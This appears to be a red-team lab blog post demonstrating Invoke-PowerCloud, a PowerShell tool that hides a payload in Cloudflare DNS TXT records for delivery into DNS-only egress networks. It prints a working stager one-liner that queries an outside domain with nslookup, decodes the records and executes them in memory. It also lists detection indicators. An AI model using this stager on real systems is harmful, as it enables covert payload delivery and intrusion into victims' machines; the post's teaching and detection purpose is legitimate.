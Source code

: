```yaml
---
layout: post
title: "2024-06-18-payload delivery via dns using invoke powercloud"
date: 2024-06-18
categories: exfiltration
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /payload-delivery-via-dns-using-invoke-powercloud/
---
```


---
description: >-
  This lab demos a tool or rather a Powershell script I have written to do what
  the title says.
---

# Powershell Payload Delivery via DNS using Invoke-PowerCloud

## Credits

Rushing to say that the tool [Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) was heavily inspired by and based on the awesome work that Dominic Chell ([@domchell](https://twitter.com/domchell)) from [MDSec](https://twitter.com/MDSecLabs) had done with [PowerDNS](https://github.com/mdsecactivebreach/PowerDNS) - go follow them and try out the [tool](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) if you have not done it yet.

Not only that, I want to thank Dominic for taking his time to answer some of my questions regarding the PowerDNS, the setup and helping me troubleshoot it as I was having "some" issues getting the payload delivered to the target from the PowerDNS server.

...which eventually led me to Invoke-PowerCloud, so read on.

## What is Invoke-PowerCloud?

[Invoke-PowerCloud](https://github.com/mantvydasb/powercloud/blob/master/Invoke-PowerCloud.ps1) is a script that allows you to deliver a powershell payload using DNS TXT records to a target in an environment that is egress limited to DNS only.

## How is Invoke-PowerCloud different from PowerDNS?

I assume you have read [PowerShell DNS Delivery with PowerDNS](https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/) which explains how PowerDNS works.

Invoke-PowerCloud works in a similar fashion, except for a couple of key differences, which may simplify the configuration process of your infrastructure to start delivering paylods via DNS. \
\
**With PowerDNS you need:**

* a dedicated linux box with a public IP where you can run PowerDNS, so it can act as a DNS server
* you also need multiple domain names to get the nameservers configured properly

**With Invoke-PowerCloud you need:**

* a cloudflare.com account
* a domain name whose DNS management is transferred to cloudflare

## Cloudflare? eh?

The way the tool works is by performing the following high level steps:

* Take the powershell payload file and base64 encode it
* Divide the payload into chunks of 255 bytes
* Create a DNS zone file with DNS TXT records representing each chunk of the payload data retrieved from the previous step
* Send the generated DNS zone file to cloudflare using their APIs
* Generate two stagers for use with authoritative NS/non-authoritative NS
* Stager can then be executed on the victim system. The stager will recover the base64 chunks from the DNS TXT records and rebuild the original payload
* Stager executes the payload in memory!

```
If you run the tool again to deliver another payload, the previous DNS TXT records will be deleted
```

## Demo

### One off Configuration

Remember - you need a cloudflare.com account for this to work. Assuming you have that, you need to edit the Invoke-PowerCloud as follows:&#x20;

1. your cloudflare API key, defined in the variable `$Global:API_KEY`
2. your cloudflare email address, defined in the variable `$Global:EMAIL`

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-11-03.png>)

### DNS Management

Secondly, you need to move the domain name which you are going to use for payload delivery to cloudflare. In this demo, I will use a domain I own `redteam.me` which is now managed by cloudflare:

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-14-53.png>)

Let's confirm redteam.me DNS is managed by cloudflare by issuing:

```
host -t ns redteam.me
```

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-16-20.png>)

### Payload

Let's create a simple payload file - it will print a red message to the screen and open up a calc.exe:

{% code title="payload.txt" %}
```csharp
Write-host -foregroundcolor red "This is our first payload using Invoke-
PowerCloud. As usual, let's pop the calc.exe"; Start-process calc.exe
```
{% endcode %}

### Good to Go

We are now good to go - issue the below on your attacking system:

```csharp
PS C:\tools\powercloud> . .\powercloud.ps1; Invoke-PowerCloud -FilePath .\payload.txt -Domain redteam.me -Verbose
```

The script will generate two stagers. One of them is shown here:

{% code title="attacker@victim" %}
```csharp
$b64=""; (1..1) | ForEach-Object { $b64+=(nslookup -q=txt "$_.redteam.me")[-1] }; iex([System.Text.Encoding]::ASCII.GetString([System.Convert]::FromBase64String(($b64 -replace('\t|"',"")))))
```
{% endcode %}

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-47-26.png>)

Let's execute the stager on the victim system to get the payload delivered via DNS:

![](<../../.gitbook/assets/Screenshot from 2018-10-15 22-47-12.png>)

### Animated Demo

Everything in action can be seen in the below gif:

![](../../.gitbook/assets/invoke-powercloud-demo.gif)

## Is Invoke-PowerCloud better than PowerDNS?

No. It just works slightly differently, but achieves the same end goal. Also note, that Cloudflare API rate limiting applies.

## Detection

Let's deliver a PowerShell empire payload using DNS and see how the system reacts to this:

![](../../.gitbook/assets/empire-stager-via-dns.gif)

For those wondering about detection possibilities, the following is a list of signs (mix and match) that may qualify the host behaviour as `suspicious` and warrant a further investigation:

* host "suddenly" bursted "many" `DNS TXT` requests to one domain
* DNS queries follow the naming convention of 1, 2, 3, ..., N
* majority of DNS answers contain `TXT Lenght` of `255` (trivial to change/randomize)
* DNS answers are all `TTL = 120` (trivial to change/randomize)
* TXT data in DNS answer has no white spaces (easy to change)
* host suddenly/in a short span of time spawned "many" `nslookup` processes
* has the endpoint changed once the DNS lookups stopped? i.e new processes spawned?

Below is a snippet of the PCAP showing DNS traffic from the above demo - note the TXT Length and the data itself:

![](<../../.gitbook/assets/Screenshot from 2018-10-16 20-12-57.png>)

Spike of `nslookup` for a host in a short amount of time:

![](<../../.gitbook/assets/Screenshot from 2018-10-16 20-17-42.png>)

Below is a sample PCAP for your inspection:

{% file src="../../.gitbook/assets/dns-packets.pcapng" %}
DNS Traffic Packet Trace
{% endfile %}

## Download

You can download or contribute to Invoke-PowerCloud here:

{% embed url="https://github.com/mantvydasb/powercloud" %}

## References

{% embed url="https://github.com/mdsecactivebreach/PowerDNS" %}

{% embed url="https://www.mdsec.co.uk/2017/07/powershell-dns-delivery-with-powerdns/" %}
@spotheplanet
